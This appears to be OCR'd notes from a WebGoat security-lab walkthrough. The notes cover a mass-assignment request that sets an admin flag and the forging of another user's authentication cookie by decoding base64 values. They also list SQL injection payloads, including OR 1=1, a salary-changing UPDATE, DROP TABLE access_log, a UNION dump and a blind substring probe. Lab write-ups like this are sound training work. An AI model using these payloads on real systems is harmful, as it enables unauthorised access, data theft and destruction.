 \{ ``username'' :``kjcyber252'', ``password'' :"``,''admin" :true \}

\begin{verbatim}
This allows for accessing the /access-control/users-admin-fix endpoint and get hash key for Jerry

![[Pasted image 20240826125552.png]]![[Pasted image 20240826130101.png]]
### 3.3 Spoofing an Authentication Cookie
Got the 2 hashes from logging in using the provided credentials:
webgoat: NmQ2YzcyNDg1NTU2NDY3MjYyNjg3NDYxNmY2NzYyNjU3Nw==
admin:      NmQ2YzcyNDg1NTU2NDY3MjYyNjg2ZTY5NmQ2NDYx

The start is the same for both hashes:
NmQ2YzcyNDg1NTU2NDY3MjYyNjg

There are some '=' signs indicating Base64 encodig:
Decoding to utf-8 (HEX) using https://www.base64decode.org/
webgoat: 6d6c724855564672626874616f67626577
admin:     6d6c72485556467262686e696d6461

The above in plaintext using https://planetcalc.com/ gives:
webgoat: mlrHUVFrbhtaogbew
admin:    mlrHUVFrbhnimda

Revealing the usernames in reverse, meaning that Tom' cookie must be:
plaintext: mlrHUVFrbhmot
Hex:  6d6c72485556467262686d6f74
Base64: NmQ2YzcyNDg1NTU2NDY3MjYyNjg2ZDZmNzQ=

Spoofing the endpoint: 
![[Pasted image 20240826142028.png]]
![[Pasted image 20240826142049.png]]

## 4 Injection
### 4.1 SQL Injection

(2) SELECT * from employees where first_name='Bob' 
(3) UPDATE employees SET  department='Sales' WHERE first_name = 'Tobi'
(4) ALTER TABLE employees ADD phone varchar(20)
(5)  GRANT ALL ON grant_rights TO unauthorized_user
(9)![[Pasted image 20240826154614.png]]
(10) SELECT * From user_data WHERE Login_Count = 0 and userid= true
(11) Employee Name: ' OR 1 = 1; --  TAN: ' '
(12) '; UPDATE employees SET salary=99999 WHERE first_name='John
![[Pasted image 20240826162409.png]]
(13) %'; DROP TABLE access_log;--
![[Pasted image 20240826163525.png]]
### 4.2 SQL Injection (advanced)
(3) a' union select user_system_data.*,NULL,NULL,NULL from user_system_data; --

(5) Hint says that table-name is randomized and needs to be retrieved sounds like a blind SQL injection   

The string `tom' AND substring(password,1,1)='t` 
gives a 
"User {0} already exists please try to register with a different username."
Response indicating we hit correctly with 1 as the first letter of the pasword


\end{verbatim}

